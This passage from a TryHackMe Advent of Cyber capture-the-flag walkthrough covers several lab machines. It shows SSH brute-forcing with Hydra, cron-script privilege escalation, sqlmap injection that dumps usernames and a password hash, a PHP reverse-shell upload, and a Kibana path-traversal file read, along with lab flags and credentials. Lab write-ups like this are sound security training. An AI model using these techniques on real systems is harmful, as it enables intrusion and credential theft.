    PORT     STATE SERVICE VERSION
    4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 31.19 seconds
    ```
    **Answer:** 4567

1. Crack sam's password and read flag1.txt<br>
    Use `hydra` to brute-force sam's password with `rockyou.txt`.<br>
    <br>
    Use thid cred for SSH logging.<br>
    ```
    $ ssh -p 4567 sam@10.10.244.5
    The authenticity of host '[10.10.244.5]:4567 ([10.10.244.5]:4567)' can't be established.
    ED25519 key fingerprint is SHA256:K/ScJks5mDZ5nEwSJoGj+cI6kaXGOPcDZdFpnJMBI18.
    This key is not known by any other names
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes  
    Warning: Permanently added '[10.10.244.5]:4567' (ED25519) to the list of known hosts.
    sam@10.10.244.5's password: 
        .---.
        /     \
        \.@-@./
        /`\_/`\
        //  _  \\
        | \     )|_
    /`\_`>  <_/ \
    \__/'---'\__/
        tryhackme
    Last login: Thu Dec 19 20:21:55 2019 from 89.241.198.95
    sam@ip-10-10-244-5:~$ cat flag1.txt 
    THM{dec4389bc09669650f3479334532aeab}
    ```
    **Answer:** THM{dec4389bc09669650f3479334532aeab}

1. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?<br>
    Use `cat /etc/crontab` to see the actual scheduled task. We see that is an empty cronjob.<br>
    <br>
    Use `find` command to find flag2 file, it's on ubuntu's home folder.<br>
    <br>
    Check permission of this file. Only ubuntu user can read it.<br>
    ```
    $ ls /home/ubuntu/ -l
    total 4
    -r-------- 1 ubuntu ubuntu 38 Dec 19  2019 flag2.txt
    ```
    I try to find another file of ubuntu user. I found a script in `/home/script/` without permission denied.<br>
    <br>
    This file is set `chmod 777` meaning all users have all permission on it.<br>
    ```
    $ ls /home/scripts/ -l
    total 8
    -rwxrwxrwx 1 ubuntu ubuntu 14 Dec 19  2019 clean_up.sh
    -rw-r--r-- 1 root   root    5 Dec 19  2019 test.txt
    ```
    Read this file.<br>
    ```
    $ cat /home/scripts/clean_up.sh 
    rm -rf /tmp/*
    ```
    This script remove everything in `/tmp/` folder and is a cronjob running ervery minute.<br>
    <br>
    I change the script in this file into `cat /home/ubuntu/flag2.txt > /home/sam/steal.txt`.<br>
    Wait a minute for this cronjob running.<br>
    The result.<br>
    <br>
    **Answer:** THM{b27d33705f97ba2e1f444ec2da5f5f61}

## Task 26 - [Day 21] Reverse Elf-ineering
1. What is the value of local_ch when its corresponding movl instruction is called(first if multiple)?<br>
    Practice base on the supporting material.<br>
    <br>
    **Answer:** 1

1. What is the value of eax when the imull instruction is called?<br>
    Use `ds` to execute next instruction and `dr` for display value of registers.<br>
    <br>
    **Answer:** 6

1. What is the value of local_4h before eax is set to 0?<br>
    Execute next instruction.<br>
    <br>
    **Answer:** 6

## Task 27 - [Day 22] If Santa, Then Christmas
1. what is the value of local_8h before the end of the main function?<br>
    Set a breakpoint before then end of main function then view value of `local_8h` and `local_4h`<br>
    <br>
    **Answer:** 9

1. what is the value of local_4h before the end of the main function?<br>
    **Answer:** 2

## Task 28 - [Day 23] LapLANd (SQL Injection)
1. Which field is SQL injectable? Use the input name used in the HTML code.<br>
    Scan the target first.<br>
    ```
    $ nmap 10.10.123.242
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-08-01 22:24 +07
    Nmap scan report for 10.10.123.242
    Host is up (0.24s latency).
    Not shown: 997 closed ports
    PORT      STATE    SERVICE
    22/tcp    open     ssh
    80/tcp    open     http
    52822/tcp filtered unknown

    Nmap done: 1 IP address (1 host up) scanned in 41.15 seconds
    ```
    Use `sqlmap` to find which parameter is vulnerable.<br>
    ```
    $ sqlmap -u http://10.10.239.220/register.php --forms
    [SNIP]
    [11:38:45] [INFO] POST parameter 'log_email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
    ```
    **Answer:** log_email

1. What is Santa Claus' email address?<br>
    Use `sqlmap -p log_email --dbs` to get all the database name.<br>
    ```
    [11:45:10] [INFO] retrieved: information_schema
    [11:49:04] [INFO] retrieved: mysql
    [11:50:11] [INFO] retrieved: performance_schema
    [11:53:58] [INFO] retrieved: phpmyadmin
    [11:56:13] [INFO] retrieved: social
    [11:57:26] [INFO] retrieved: sys
    ```
    Find all tables in social database with `sqlmap -p log_email -D social --tables`.<br>
    ```
    Database: social
    [8 tables]
    +-----------------+
    | comments        |
    | friend_requests |
    | likes           |
    | messages        |
    | notifications   |
    | posts           |
    | trends          |
    | users           |
    +-----------------+
    ```
    Get contents of table users with `sqlmap -p log_email -D social -T users --dump`
    ```
    [12:27:02] [INFO] retrieved: id
    [12:27:40] [INFO] retrieved: first_name
    [12:31:00] [INFO] retrieved: last_name
    [12:34:02] [INFO] retrieved: username
    [12:36:18] [INFO] retrieved: email
    [12:37:40] [INFO] retrieved: password
    [12:40:20] [INFO] retrieved: signup_date
    [12:44:06] [INFO] retrieved: profile_pic
    [12:48:02] [INFO] retrieved: num_posts
    [12:51:36] [INFO] retrieved: num_likes
    [12:54:45] [INFO] retrieved: user_closed
    [12:58:28] [INFO] retrieved: friend_array
    ```
    Get email and password of the table with `-C email,password`.<br>
    ```
    bigman@shefesh.com
    [23:27:57] [INFO] retrieved: f1267830a78c0b59acc06b05694b2e28
    ```
    **Answer:** bigman@shefesh.com

1. What is Santa Claus' plaintext password?<br>
    Use [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) to crack above hash.<br>
    <br>
    **Answer:** saltnpepper

1. Santa has a secret! Which station is he meeting Mrs Mistletoe in?<br>
    Login with the above credential and navigate Inbox tab.<br>
    <br>
    **Answer:** Waterloo

1. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php<br>
    Use thw wenshell from [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)<br>
    Upload to the webserver with extension .phtml then reload the page to get reverse connection on netcat from the webserver.<br>
    <br>
    The flag is in `/home/user/flag.txt`.<br>
    **Answer:** THM{SHELLS_IN_MY_EGGNOG}

## ## Task 28 - [Day 24] Elf Stalk
1. Find the password in the database<br>
    Use `nmap` to enumerate which ports is running on the machine.<br>
    ```
    $ nmap 10.10.218.146                   
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-12 05:55 EDT
    Nmap scan report for 10.10.218.146
    Host is up (0.35s latency).
    Not shown: 996 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    22/tcp   open  ssh
    111/tcp  open  rpcbind
    5601/tcp open  esmagent
    8000/tcp open  http-alt
    9200/tcp open  wap-wsp

    Nmap done: 1 IP address (1 host up) scanned in 35.41 seconds
    ```
    I noticed to port 9200 which is the default port of Elasticsearch, so I use the following command to get all index of the database `curl -X GET "10.10.218.146:9200/_aliases?pretty=true"`
    ```
    $ curl -X GET "10.10.218.146:9200/_aliases?pretty=true"
    {
    ".kibana" : {
        "aliases" : { }
    },
    "messages" : {
        "aliases" : { }
    }
    }
    ```
    There are two indexs, i will choose the `message` index to get the first 1000 records and filter with `password` with command.<br>
    ```
    $ curl -X GET "http://10.10.218.146:9200/messages/_search/?size=1000&pretty" | grep -i password
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    4 55290    4  2463    0     0   3487      0  0:00:15 --:--:--  0:00:15  3483          "message" : "hey, can you access my dev account for me. My username is l33tperson and my password is 9Qs58Ol3AXkMWLxiEyUyyf"
    ```
    **Answer:** 9Qs58Ol3AXkMWLxiEyUyyf4

1. Read the contents of the /root.txt file<br>
    Port 5601 is use for Kibana UI, I found the version is 6.4.2 which is vulnerable to Local File Inclusion (CVE-2018-17246). Send the request [http://10.10.218.146:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../root.txt](http://10.10.218.146:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../root.txt) then access the log file in port 8000, you will see the content of root.txt. <br>
    <br>
    **Answer:** someELKfun
